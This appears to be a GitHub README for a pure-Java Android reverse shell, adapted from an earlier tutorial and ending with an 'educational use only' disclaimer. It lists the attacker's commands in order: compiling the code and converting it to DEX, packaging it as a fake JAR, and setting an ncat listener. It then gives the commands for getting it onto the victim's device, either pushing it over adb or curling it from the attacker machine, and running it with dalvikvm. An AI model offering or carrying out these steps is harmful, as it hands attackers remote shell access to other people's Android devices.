 # Pure Java Android Reverse Shell

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

## On Attacker machine - Linux for example -  ! you need android sdk installed and build-tools also 

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 --output classes.dex AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Todo

. Support for SSL encryption

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

